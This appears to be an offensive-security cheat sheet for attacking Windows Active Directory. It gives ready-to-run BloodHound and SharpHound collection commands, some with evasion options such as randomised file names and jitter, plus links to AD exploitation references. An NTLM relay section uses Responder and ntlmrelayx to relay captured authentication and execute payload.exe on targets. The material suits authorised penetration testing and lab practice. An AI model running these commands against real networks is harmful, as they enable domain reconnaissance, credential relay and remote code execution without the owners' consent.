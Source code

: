 <br>

## Bloodhound

```powershell
# run the collector on the machine using SharpHound.exe
# https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.exe
# /usr/lib/bloodhound/resources/app/Collectors/SharpHound.exe
.\SharpHound.exe -c all -d active.htb -SearchForest
.\SharpHound.exe --EncryptZip --ZipFilename export.zip
.\SharpHound.exe -c all,GPOLocalGroup
.\SharpHound.exe -c all --LdapUsername <UserName> --LdapPassword <Password> --JSONFolder <PathToFile>
.\SharpHound.exe -c all -d active.htb --LdapUsername <UserName> --LdapPassword <Password> --domaincontroller 10.10.10.100
.\SharpHound.exe -c all,GPOLocalGroup --outputdirectory C:\Windows\Temp --randomizefilenames --prettyjson --nosavecache --encryptzip --collectallproperties --throttle 10000 --jitter 23
.\SharpHound.exe -c all,GPOLocalGroup --searchforest

# or run the collector on the machine using Powershell
# https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.ps1
# /usr/lib/bloodhound/resources/app/Collectors/SharpHound.ps1
Invoke-BloodHound -SearchForest -CSVFolder C:\Users\Public
Invoke-BloodHound -CollectionMethod All  -LDAPUser <UserName> -LDAPPass <Password> -OutputDirectory <PathToFile>

# or remotely via BloodHound Python
# https://github.com/fox-it/BloodHound.py
pip install bloodhound
bloodhound-python -d lab.local -u rsmith -p Winter2017 -gc LAB2008DC01.lab.local -c all
```

<br>
<br>

# Active_Directory

[Cheatsheet 1](https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet#asreproast)

[Cheatsheet 2](https://casvancooten.com/posts/2020/11/windows-active-directory-exploitation-cheat-sheet-and-command-reference/)

[Cheatsheet 3](https://book.hacktricks.xyz/windows/active-directory-methodology)

[Cheatsheet 4](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md)

<br>

## NTLMRELAY

*Signing must be disabled 
*Cannot execute this Against Self
```
cme smb — gen-relay-list smb_targets.txt 172.21.23.0/24
Responder -rdP -I eth0
Ntlmrelayx.py -tf targets.txt -e payload.exe
```
